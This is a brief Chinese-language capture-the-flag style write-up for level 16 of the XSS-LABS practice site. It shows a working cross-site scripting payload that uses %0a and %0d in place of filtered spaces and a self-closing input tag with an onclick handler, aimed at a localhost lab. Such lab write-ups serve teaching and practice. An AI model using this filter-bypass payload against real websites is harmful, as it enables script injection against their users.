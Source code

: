 - 测试发现空格和斜杠被实体编码。

![image-20220928234712370](XSS-LABS.assets/image-20220928234712370.png)

- 构造payload，使用hex替代字符集来绕过被实体编码。

```shell
# HTML character codes 在线查询网站：
# https://www.obkb.com/dcljr/charstxt.html 

# %0a %0d 都可以充当空格
# /被转义了，选择一个自闭和标签可以绕过。

# payload
?keyword=<input%0avalue="Click me"%0dtype="button"%0donclick="alert(`xss`)">

# url
http://localhost:1996/level16.php?keyword=<input%0avalue="Click me"%0dtype="button"%0donclick="alert(`xss`)">
```

- 访问上述url，点击Click me，拿下。
